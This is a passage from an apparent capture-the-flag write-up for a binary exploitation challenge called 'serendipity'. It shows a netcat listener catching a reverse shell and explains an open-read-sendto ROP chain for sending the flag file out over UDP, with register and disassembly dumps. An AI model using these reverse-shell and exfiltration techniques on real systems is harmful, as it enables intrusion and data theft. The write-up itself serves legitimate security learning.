 Result:
```
╭─    ~/CTF/Pwnable/2023/wc2023/serendipity    master !1 ?38                                                                                           ✔  w1n_gl0ry@phis1Ng ─╮
╰─ nc -lnvp 1337                                                                                                                                                                     ─╯
Listening on 0.0.0.0 1337
Connection received on 127.0.0.1 34014
w1n_gl0ry@phis1Ng:~/CTF/Pwnable/2023/wc2023/serendipity$ 
w1n_gl0ry@phis1Ng:~/CTF/Pwnable/2023/wc2023/serendipity$ id
id
uid=1000(w1n_gl0ry) gid=1000(w1n_gl0ry) groups=1000(w1n_gl0ry),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),118(lpadmin)
```

We successfully achieved RCE using reverse shell. However, the docker blocked external network access, preventing us from obtaining a shell.

## final phase

During the contest, I considered an alternative approach: simply performing an open-read-write to obtain the flag. The author also hinted at the flag's location: /home/user/flag. But can we obtain the flag by writing to stdout?

No, we need to come up with a different approach to send the flag over the UDP connection. So, I will use an open-read-sendto chain to get the flag

So what parameters does the `sendto` syscall need?

```c
ssize_t sendto(int sockfd, const void *buf, size_t len, int flags, const struct sockaddr *dest_addr, socklen_t addrlen);
```

Fortunately, the r8 register points to our sockaddr struct before executing our ROP chain.

```
 RAX  0x0
 RBX  0x7f744c1fe640 ◂— 0x7f744c1fe640
 RCX  0x7f744cb27c56 (sendto+118) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0x0
 RDI  0x0
 RSI  0x560df594a3d4 ◂— "file can't be read\n"
 R8   0x560df594a3c0 ◂— 0x100007fa8d10002  // our sockaddr struct
 R9   0x10
 R10  0x0
 R11  0x293
 R12  0x7f744c1fe640 ◂— 0x7f744c1fe640
 R13  0x0
 R14  0x7f744ca947d0 (start_thread) ◂— endbr64 
 R15  0x7ffed7952e20 ◂— 0x0
 RBP  0x7f744c1fde50 ◂— 0x4141414141414141 ('AAAAAAAA')
 RSP  0x7f744c1fdaf0 ◂— 0x0
*RIP  0x560df4890e70 ◂— je 0x560df4890e77
*EFLAGS 0x246 [ cf PF af ZF sf IF df of ]
──────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────────────────────────────────────────────
   0x560df4890d19                             call   0x560df48909b9                <0x560df48909b9>
 
   0x560df4890d1e                             mov    eax, 0
   0x560df4890d23                             jmp    0x560df4890e63                <0x560df4890e63>
    ↓
   0x560df4890e63                             mov    rdx, qword ptr [rbp - 8]
   0x560df4890e67                             sub    rdx, qword ptr fs:[0x28]
 ► 0x560df4890e70                           ✔ je     0x560df4890e77                <0x560df4890e77>
    ↓
   0x560df4890e77                             leave  
```